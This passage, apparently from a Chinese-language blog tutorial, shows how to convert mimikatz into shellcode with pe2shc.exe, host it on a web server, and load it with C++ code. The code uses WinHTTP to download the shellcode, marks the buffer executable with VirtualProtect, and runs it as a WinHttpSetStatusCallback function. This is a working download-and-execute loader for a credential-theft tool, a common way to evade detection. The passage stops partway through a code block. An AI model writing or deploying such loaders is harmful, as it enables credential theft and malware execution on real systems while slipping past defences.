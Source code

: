 **实现如下 ：**

这里我们需要用到github上的一个项目,这是地址https://github.com/hasherezade/pe\_to\_shellcode

我们需要用到里面的pe2shc.exe这个文件，它可以把exe文件变成shellcode  
`pe2shc.exe mimikatz文件 mimimi.txt`  
随后会生成一个mimimi.txt文件，我们把它放在我们的网站根目录下

**读取mimimi.txt**  
这里使用WinHttpQueryDataAvailable获取数据大小然后使用WinHttpReadData来读取数据，最后利用WinHttpSetStatusCallback设置回调函数执行

在Winhttpconnect里填写网站对应的ip，端口，在WinHttpOpenRequest里填写对应要访问的文件(我这里是刚才生成的mimimi.txt)

```php
HINTERNET hSession = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
HINTERNET hConnect = WinHttpConnect(hSession, L"127.0.0.1", 80, 0);
HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"GET", L"mimimi.txt", L"HTTP/1.1", WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 0);
```

随后调用WinHttpSendRequest和WinHttpReceiveResponse

```php
BOOL bResults = WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
bResults = WinHttpReceiveResponse(hRequest, NULL);
```

最后WinHttpReadDat读取，设置回调函数执行

```php
DWORD dwSize = 0;
//hRequest是之前WinHttpOpenRequest返回的句柄
if (!WinHttpQueryDataAvailable(hRequest, &dwSize))
{
        printf("Error %u in WinHttpQueryDataAvailable.\n",
                GetLastError());
        break;
}
if (!dwSize)
        break;
dwSize = dwSize * 4000;
//这里我乘以4000是因为获取的大小老是小于mimimi.txt文件的大小，所以我直接干脆乘以4000，以防万一

char* pszOutBuffer = new char[dwSize];

ZeroMemory(pszOutBuffer, dwSize);

if (!WinHttpReadData(hRequest, pszOutBuffer,dwSize, &dwDownloaded))
{
        printf("Error %u in WinHttpReadData.\n", GetLastError());
}
else
{
        cout << "[*] Loading" << endl << endl;

        DWORD ppp;
        VirtualProtect(pszOutBuffer, dwSize, PAGE_EXECUTE_READWRITE, &ppp);
        HINTERNET hopen = WinHttpOpen(L"User", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
        WINHTTP_STATUS_CALLBACK callback = WinHttpSetStatusCallback(hopen, (WINHTTP_STATUS_CALLBACK)pszOutBuffer, WINHTTP_CALLBACK_FLAG_HANDLES, NULL);
        if (callback == WINHTTP_INVALID_STATUS_CALLBACK) {
                cout << "[*] WinHttpSetStatusCallback Error" << endl;
                exit(1);
        }

        cout << "[*] Load Success  " << endl << endl;
```